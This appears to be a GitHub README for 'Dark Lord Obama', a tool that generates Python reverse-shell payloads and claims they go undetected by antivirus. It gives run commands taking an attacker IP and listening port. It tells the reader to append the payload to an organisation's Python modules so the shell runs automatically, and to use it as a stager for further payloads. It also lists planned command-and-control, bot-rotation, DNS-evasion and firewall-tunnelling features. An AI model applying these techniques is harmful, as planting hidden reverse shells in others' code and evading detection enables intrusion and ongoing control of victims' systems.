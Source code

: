 ![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

# Current usage

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

Currently it only works on targets that run Python. A cross-compilable and transpilable edition is in the works after DEFCON and after I pass the OSCP.

`python darklordobama-generator.py <LHOST> <LPORT>`

# Incoming features

1. Cross-compilation - Ideal targeted platforms, Android, iOS, MacOS (already possible with py2app), ARM/MIPS based routers and IoT devices
2. C2 Server - Encrypts a whole TLS 1.3 certificate within the payload, and attempts to negotiate a TLS session with the Command-and-Control Server (the payload does not have the key or IV, the server sends a CHALLENGE string containing it for the payload to decrypt the TLS cert), if a IP or host fails to provide the correct TLS certificate (handshake), the C2 Server immediately issues a permaban rule on IPTables (DROP packets)
3. "Steroid Injections" - Re-writable sections of memory occupied by the payload using statically defined functions, built in reverse-SSH tunnels, and SocketServer. Instantly grant your payload new abilities without having to re-touch the disk (it modifies a function that is holding a 5,000 byte buffer of \x90 NOP instructions and then lets you CALL it)
4. Dynamic DNS Support - With built-in dns resolver to ensure that you always use public DNS (1.1.1.1 or 8.8.8.8) to evade corporate DNS whitelisting
5. C2_Rotate Function - Using Ansible, Tensorflow, and Python, automate the spinning up of brand new Command-and-Control Servers, and immediately push a mass-update on all current bots to "rotate" to the new VPS. Requires Dynamic DNS subscription.
6. Built-in SSH client - Allow your payloads to create reverse SSH tunnels to tunnel out of restrictive firewalls (like a home NATed router)
7. ASM Interpreter - Run x86 Assembly Instructions or launch object .o files
